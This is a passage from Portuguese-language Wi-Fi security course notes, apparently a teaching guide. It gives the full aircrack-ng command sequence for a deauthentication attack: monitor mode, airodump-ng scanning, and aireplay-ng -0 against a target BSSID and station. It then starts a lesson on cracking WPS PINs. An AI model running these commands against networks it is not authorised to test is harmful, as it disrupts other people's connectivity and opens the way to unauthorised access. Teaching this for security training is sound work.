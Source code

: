 Primeiramente devemos iniciar uma interface em modo monitor.

```text
# iw list
```

O comando

```text
# iw dev wlan0 interface add mon0 type monitor
```

irá adicionar uma interface virtual funcionando em modo monitor. Podemos comprovar isso com

```text
# ifconfig
```

que agora deve listar a nova interface.

Agora utilizaremos alguns programas da suite -ng.

```text
# airodump-ng mon0
```

faz uma varredura dos canais suportados atualmente pela placa de rede \(de acordo com a configuração de país ???\), e mostra um sumário de cada BSS e suas respectivas estações conectadas. É possível utilizar argumentos de filtro caso necessário.

Com nosso alvo escolhido, isto é, seu BSS ou BSS + MAC encontrados, podemos começar o ataque. O seguinte comando irá enviar pacotes de desautenticação como se fosse o BSSID especificado. É possível passar o MAC da estação de destino também, com a flag -c

```text
# aireplay-ng -0 0 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx
```

#### Troubleshooting

* "Meu aireplay não vai"

  Verifique se o canal da interface é o mesmo do BSS

* "Device is busy ou algo do tipo"

  Se você adicionou uma interface virtualmente, ela funciona de modo mutex com a interface real. Desative a wlan0 da vida com

  ```text
  # ifconfig wlan0 down
  ```

#### Materiais adicionais

* [Pacotes 802.11](https://www.liveaction.com/docs/glossary/wireless-lan-802-11-wlan/packet-types/)

## Aula 7: WPS, PIN codes, Reaver e Pixie Dust

Um mecanismo ainda razoavelmente comum em redes wi-fi é a presença de **Wi-fi Protected Setup \(WPS\)**. No entanto, essa técnica permite fazer ataques muito simples para se quebrar a senha de uma rede Wi-fi.
